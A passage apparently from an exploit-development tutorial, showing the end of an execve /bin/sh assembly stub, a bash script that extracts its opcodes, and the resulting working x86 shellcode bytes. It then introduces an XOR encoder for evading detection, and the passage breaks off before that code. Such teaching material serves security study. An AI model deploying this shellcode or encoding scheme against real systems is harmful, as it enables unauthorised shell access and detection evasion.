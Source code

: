 ```
	mov ecx, esp

	mov al, 11
	int 0x80
```

let's extract the shellcode in the usual way with the aid of the following helper script:

```
#!/bin/bash

echo '######### NASM #########'

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o execve-stack.o execve-stack.nasm
echo '[+] Done!'

echo '[+] Linking ...'
ld -z execstack -o execve-stack execve-stack.o
echo '[+] Done!'

echo '[+] Objdump ...'
objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\x/g'|paste -d '' -s |sed 's/^/"/' | sed 's/$/"/g'

rm -rf execve-stack.o
rm -rf execve-stack
```

Let's execute it

```
$ ./compile-execve-stack.sh 
######### NASM #########
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Objdump ...
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Hence the shellcode is the following:

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Custom python encoder

Here follows the python encoder, it takes as input a shellcode and generate the corresponding encoded one to append after the decoder stub, xoring with the encryption 4 bytes key and adding to every chunk the jump back statement, and eventually a padding.
